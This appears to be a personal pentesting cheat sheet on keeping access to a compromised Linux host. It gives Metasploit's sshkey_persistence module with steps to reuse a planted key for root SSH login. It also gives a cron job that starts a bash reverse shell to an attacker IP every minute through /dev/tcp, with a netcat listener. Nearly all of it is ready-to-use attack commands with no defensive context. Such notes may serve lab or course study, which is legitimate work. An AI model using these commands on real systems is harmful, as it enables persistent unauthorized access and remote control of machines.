

# Via SSH keys:

- post/linux/manage/sshkey_persistence (needed elevated privs, check rootkit for privesc)
	- set CREATESSHFOLDER true
	- check loot, copy the key and save it as a new file and do these -
	- chmod 0400 ssh_key
	- ssh -i ssh_key root@192.182.80.3
- id_rsa : pvt key
- authorized_keys: list of pub keys authorized to access server.
- login with pvt key: ssh -i <pvt_key> <user>@<target_ip>
	
# Using Cron Jobs:

- ps -eaf | grep cron : see if cron service is running
- create netcat listener on attacker machine.
- create cronjob on target machine. 
- * * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'
- Another Way: serve http server using python



- cheatsheet: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet